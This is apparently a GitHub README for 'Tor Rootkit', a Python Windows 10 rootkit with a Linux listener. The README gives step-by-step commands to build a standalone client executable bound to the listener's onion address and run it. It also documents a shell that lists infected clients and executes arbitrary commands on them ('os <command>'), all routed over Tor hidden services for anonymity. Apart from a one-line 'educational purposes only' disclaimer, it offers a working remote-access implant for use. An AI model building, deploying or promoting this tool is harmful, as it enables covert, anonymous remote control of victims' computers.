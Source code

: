 # Tor Rootkit
[![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)
![Standalone Compilation](https://github.com/emcruise/TorRootkit/workflows/Standalone%20Compilation/badge.svg)

A Python 3 standalone Windows 10 Rootkit. The networking works over tor hidden services.


## Installation
- Clone with git:
```bash
git clone https://github.com/emcruise/TorRootkit.git
```

- Change directory to the repository:
```bash
cd ./TorRootkit
```

### Listener
The listener is designed to run on linux.

#### Prerequisites
- [Tor](https://www.torproject.org/)
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)

1. Install all pip3 dependencies:
```bash
pip3 install -r listener/requirements.txt
```

2. Run the listener:
```bash
./listener/listener.py <hiddenservice-port> <local-port>
```

### Client
The client is designed to run on Windows 10.

#### Prerequisites
- [Python3](https://www.python.org/)
- [Pip3](https://pypi.org/project/pip/)
- Add Python3 and Pip3 to PATH

1. Change directory to client:
```bash
cd .\client
```

2. Install all pip3 dependencies:
```bash
pip3 install -r requirements.txt
```
3. Build executable from build.py:
- downloads [Tor Expert Bundle](https://www.torproject.org/download/tor/)
- bundles python3 interpreter and tor expert bundle into 1 standalone .exe file
```bash
python build.py <listener-onion-address> <listener-onion-port>
```

3. Execute the bundled client:
```bash
.\dist\client.exe
```

## Disclaimer
Use for educational purposes only.

## Features
- Standalone executable, including python interpreter and tor expert bundle (~13MB)
- the whole communication works over tor hidden services which guarantees some degree of anonymity
- Listener can handle multiple clients

## Listener Shell Usage
### Listener Server Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C`or`exit` | Exits the shell |
| `list` | lists all connected clients with their according index |
| `select <index>` | start shell with client |

### Client Shell
| Command | Explanation |
| ------- | ----------- |
| `help`  | Shows the help menu |
| `^C` or `exit` | Exits the shell and returns to listener shell |
| `os <command>` | Executes a command in the clients shell and returns the output |

## Contribution
All contributions are appreciated.

